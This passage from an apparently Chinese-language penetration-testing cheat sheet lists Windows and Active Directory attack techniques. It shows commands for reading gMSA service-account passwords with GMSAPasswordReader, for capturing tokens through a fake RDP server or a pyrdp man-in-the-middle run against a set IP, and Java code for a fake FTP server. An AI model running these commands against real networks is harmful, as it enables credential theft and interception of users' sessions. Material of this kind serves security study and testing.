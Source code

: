 操作系统: Windows

类型: Enumeration & Hunt

方法:

1.

`GMSAPasswordReader.exe –accountname SVC_SERVICE_ACCOUNT`

  

批注：[https://github.com/rvazarkar/GMSAPasswordReader](https://link.zhihu.com/?target=https%3A//github.com/rvazarkar/GMSAPasswordReader)

### **Delegate tokens via RDP**

域：No

Local Admin: Yes

操作系统: Windows/Linux

类型: Delegate tokens

方法:

1.

`./fake_rdp.py`

Or

`pyrdp-mitm.py 192.168.1.10 -k private_key.pem -c certificate.pem`

  

批注：

fake\_rdp：[https://github.com/cheeseandcereal/fake-rdp](https://link.zhihu.com/?target=https%3A//github.com/cheeseandcereal/fake-rdp)

pyrdp-mitm未找到QAQ

### **Delegate tokens via FTP**

域：No

Local Admin: Yes

操作系统: Windows/Linux

类型: Delegate tokens

方法:

1.

```text
 FakeFtpServer fakeFtpServer = new FakeFtpServer();
 
 fakeFtpServer.addUserAccount(new UserAccount(“user”, “password”, “c:\\data”));
 
 FileSystem fileSystem = new WindowsFakeFileSystem();
 
 fileSystem.add(new DirectoryEntry(“c:\\data”));
 
 fileSystem.add(new FileEntry(“c:\\data\\file1.txt”, “abcdef 1234567890”));
 
 fileSystem.add(new FileEntry(“c:\\data\\run.exe”));
 
 fakeFtpServer.setFileSystem(fileSystem);  
 
 fakeFtpServer.start();
```
